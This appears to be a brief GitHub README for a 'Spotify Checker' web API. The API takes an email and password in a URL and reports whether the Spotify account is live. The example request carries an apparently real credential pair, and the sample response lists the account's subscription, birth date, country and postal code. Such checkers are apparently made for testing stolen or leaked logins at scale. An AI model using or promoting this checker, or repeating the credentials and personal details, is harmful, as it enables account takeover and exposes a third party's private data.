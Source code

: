 # spotify
Spotify Checker

Api : http://www.sbsseh.com/cek/Spotify/api/

?email= (required). Email
&password= (required). Password

Example : http://www.sbsseh.com/cek/Spotify/api/?email=ikhsanfia@yahoo.co.id&password=benci

Live Account 

{"status":"success","error":"none","subscription":"Premium for Family","Berlaku hingga":["4\/14\/18"],"Tanggal lahir":["2\/20\/86"],"Negara":["ID"],"Kode pos":["46124"]}
